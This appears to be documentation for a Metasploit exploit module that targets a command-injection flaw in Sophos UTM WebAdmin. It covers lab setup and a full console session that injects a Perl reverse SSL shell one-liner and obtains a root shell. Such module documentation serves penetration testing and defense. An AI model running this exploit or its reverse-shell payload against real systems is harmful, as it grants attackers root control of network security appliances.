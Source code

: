## Vulnerable Application

### Setup

Follow the [setup guide] from Sophos, in particular the [system requirements] and [installation instructions]. You can stop after that.

1. Boot the ISO
1. Follow the on-screen prompts
1. Reboot
1. Hax

Tested against [`asg-9.510-5.1.iso`](#scenarios) (unpatched) and `asg-9.511-2.1.iso` (patched).

[setup guide]: https://docs.sophos.com/nsg/sophos-utm/utm/9.707/help/en-us/Content/utm/utmAdminGuide/Installation.htm
[system requirements]: https://docs.sophos.com/nsg/sophos-utm/utm/9.707/help/en-us/Content/utm/utmAdminGuide/InstallationSystemRequirements.htm
[installation instructions]: https://docs.sophos.com/nsg/sophos-utm/utm/9.707/help/en-us/Content/utm/utmAdminGuide/InstallationInstructions.htm

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

## Scenarios

### Sophos UTM 9.510

```
msf > use exploit/linux/http/sophos_utm_webadmin_sid_cmd_injection
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > options

Module options (exploit/linux/http/sophos_utm_webadmin_sid_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      4444             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > set rhosts 172.16.57.254
rhosts => 172.16.57.254
msf exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > set verbose true
verbose => true
msf exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > run

[+] perl -e 'use IO::Socket::SSL;$p=fork;exit,if($p);$c=IO::Socket::SSL->new(PeerAddr=>"172.16.57.1:443",SSL_verify_mode=>0);while(sysread($c,$i,8192)){syswrite($c,`$i`);}'
[-] Handler failed to bind to 172.16.57.1:443
[*] Started reverse SSL handler on 0.0.0.0:443
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Injecting command: sleep 5
[*] Elapsed time: 5.107014999957755 seconds
[+] The target appears to be vulnerable. Successfully tested command injection.
[*] Executing cmd/unix/reverse_perl_ssl (Unix Command)
[*] Injecting command: perl -e 'use IO::Socket::SSL;$p=fork;exit,if($p);$c=IO::Socket::SSL->new(PeerAddr=>"172.16.57.1:443",SSL_verify_mode=>0);while(sysread($c,$i,8192)){syswrite($c,`$i`);}'
[*] Command shell session 1 opened (172.16.57.1:443 -> 172.16.57.254:43275 ) at 2021-10-21 12:23:57 -0500

whoami
root
```
